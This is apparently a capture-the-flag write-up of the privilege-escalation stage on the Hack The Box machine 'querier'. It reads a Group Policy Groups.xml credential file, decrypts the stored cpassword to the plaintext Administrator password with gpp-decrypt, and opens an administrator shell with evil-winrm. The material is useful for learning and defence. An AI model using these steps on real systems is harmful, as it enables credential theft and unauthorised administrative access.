

# 15 - PrivEsc


# Groups.xml



# cpassword
```xml
PS C:\users\mssql-svc\Documents> type 'C:\Users\All Users\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml'
<?xml version="1.0" encoding="UTF-8" ?><Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="Administrator" image="2" changed="2019-01-28 23:12:48" uid="{CD450F70-CDB8-4948-B908-F8D038C59B6C}" userContext="0" removePolicy="0" policyApplied="1">
<Properties action="U" newName="" fullName="" description="" cpassword="CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74KeUWc2+BeOVDQ" changeLogon="0" noChange="0" neverExpires="1" acctDisabled="0" userName="Administrator"></Properties></User></Groups>
```


# Decrypted password
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/querier]
└──╼ $ gpp-decrypt CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74KeUWc2+BeOVDQ
MyUnclesAreMarioAndLuigi!!1!
```


# Shell


```powershell
┌─[user@parrot]─[10.10.14.9]─[~/htb/querier]
└──╼ $ evil-winrm  -i 10.10.10.125 -u Administrator -p 'MyUnclesAreMarioAndLuigi!!1!'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
querier\administrator
```